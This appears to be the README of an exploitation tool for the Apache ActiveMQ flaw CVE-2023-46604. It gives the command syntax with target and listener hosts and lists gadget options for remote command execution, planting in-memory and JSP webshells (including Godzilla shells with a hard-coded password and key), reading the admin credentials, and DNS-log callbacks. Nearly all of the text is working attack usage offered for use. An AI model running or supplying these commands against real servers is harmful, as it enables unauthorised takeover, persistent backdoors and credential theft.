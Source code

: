ActiveMQ CVE-2023-46604 61616端口利用工具
安全版本>= 5.18.3/5.17.6/5.16.7
java -jar ActiveMQExp.jar rhost=rhost lhost=lhost gadget=gadget cmd=cmd
例如
java -jar ActiveMQExp.jar rhost=127.0.0.1 lhost=127.0.0.1 gadget=cb19 cmd=whoami
默认 rport=61616 ldapport=1389 httpport=9998
目前支持的gadget如下
gadget=wincmd cmd=whoami //无回显
gadget=linuxcmd cmd=whoami //无回显
gadget=spelcmd cmd=whoami //无回显
gadget=spelecho cmd=whoami //有回显 from Hutt0n0
gadget=spelclass cmd=memcmd //内存马 from Hutt0n0 http://rhost:8161/admin/memshell?cmd=whoami
gadget=spelclass cmd=memgodzilla //内存马 http://rhost:8161/admin/memgodzilla pass:Tas9er key:B7VO2sAamj
gadget=spelclass cmd=readfile //读8186账户密码并且请求一次8186/admin/
gadget=spelclass cmd=whoami //有回显
gadget=spelclass cmd=cmdjsp // http://rhost:8161/api/cmd.jsp
gadget=spelclass cmd=godzillajsp // http://rhost:8161/api/godzillajsp pass:Tas9er key:B7VO2sAamj
gadget=urldns cmd=xxx.dnslog.cn
gadget=cb18 cmd=whoami //有回显
gadget=cb18 cmd=cmdjsp
gadget=cb18 cmd=godzillajsp
gadget=cb18 cmd=readfile
gadget=cb18 cmd=memgodzilla
gadget=cb19 cmd=whoami //有回显
gadget=cb19 cmd=cmdjsp
gadget=cb19 cmd=godzillajsp
gadget=cb19 cmd=readfile
gadget=cb19 cmd=memgodzilla
